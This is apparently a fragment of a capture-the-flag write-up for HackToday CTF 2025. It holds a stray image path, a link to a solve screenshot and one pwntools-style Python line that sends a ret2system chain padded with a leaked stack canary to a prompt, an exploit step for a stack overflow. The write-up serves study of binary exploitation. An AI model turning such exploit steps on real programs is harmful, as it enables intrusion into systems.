 ```python
sa("> ", ret2system() + p64(canary)*8)
```

![alt](../../../img/CTFNational/HackToday_CTF_2025/Solve.png)
